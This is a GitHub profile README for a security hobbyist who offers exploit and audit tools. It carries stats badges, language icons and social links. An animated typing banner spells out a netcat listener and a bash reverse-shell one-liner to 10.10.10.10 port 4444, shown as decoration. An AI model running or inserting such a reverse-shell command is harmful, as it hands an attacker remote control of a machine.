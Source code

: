 <h3 align="left">✨ Hello, here you will find tools to exploit vulnerabilities and audits ✨</h3>

<div align="left">
  <img src="https://visitor-badge.laobi.icu/badge?page_id=JoeArchV.JoeArchV&left_text=Profile%20views"  />
</div>

  <img height="320" src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=15&pause=1000&multiline=true&repeat=false&width=370&height=180&lines=nc+-lvnp+4444;listening+on+%5Bany%5D++4444+...;connect+to+%5BJoeArchV%5D+profile;bash+-i++%3E%26++%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;JoeArchV%40profile%3A~%24+.%2Fexploit.py;.........................................;..................01001001...............;%24whoami;JoeArchV"  />
</div>

<div align="left">
  <img src="https://github-readme-stats.vercel.app/api?username=JoeArchV&hide_title=true&hide_rank=false&show_icons=false&include_all_commits=true&count_private=true&disable_animations=false&theme=dark&locale=en&hide_border=false&order=1" height="130" alt="stats graph"  />
  <img src="https://streak-stats.demolab.com?user=JoeArchV&locale=en&mode=daily&theme=dark&hide_border=false&border_radius=5&order=3" height="130" alt="streak graph"  />
</div>

<h5 align="left">✨ Programming language and social ✨</h5>
<div align="left">
  <img src="https://img.shields.io/badge/C-A8B9CC?logo=c&logoColor=black&style=for-the-badge" height="35" alt="c logo"  />
  <img src="https://img.shields.io/badge/C++-00599C?logo=cplusplus&logoColor=white&style=for-the-badge" height="35" alt="cplusplus logo"  />
  <img src="https://img.shields.io/badge/Python-3776AB?logo=python&logoColor=white&style=for-the-badge" height="35" alt="python logo"  /
  <a href="https://discord.com/invite/qWehcFJxPa" target="_blank">
  <img src="https://img.shields.io/static/v1?message=Discord&logo=discord&label=&color=7289DA&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="discord logo"  /
  <a href="https://www.youtube.com/@joearchyt" target="_blank">
   <img src="https://img.shields.io/static/v1?message=Youtube&logo=youtube&label=&color=FF0000&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="youtube logo"  /
  <a href="https://ko-fi.com/joearch" target="_blank">
   <img src="https://img.shields.io/static/v1?message=Ko-fi&logo=ko-fi&label=&color=F16061&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="ko-fi logo"  /
</div>
